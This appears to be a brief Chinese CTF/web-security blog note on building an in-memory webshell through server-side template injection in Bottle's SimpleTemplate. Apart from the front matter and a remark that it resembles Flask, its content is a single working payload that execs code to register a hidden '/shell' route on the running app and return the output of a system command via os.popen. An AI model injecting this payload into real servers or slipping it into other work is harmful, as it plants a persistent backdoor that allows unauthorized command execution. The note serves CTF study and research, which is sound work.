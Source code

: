 ```yaml
---
title: Bottle内存马详解
toc: true
categories:
  - 技术
  - ctf
  - web
date: 2025-05-11 12:43:47
tags：
---
```


本篇以Bottle的SimpleTemplate ssti研究内存马

大概看了下跟flask差不多呢，摆了，下班

```py
{{exec("""
@app.route('/shell')
def g():
    return __import__('os').popen('whoami').read()""",{"app":__import__('sys').modules['__main__'].__dict__['app']})}}
```

```

```

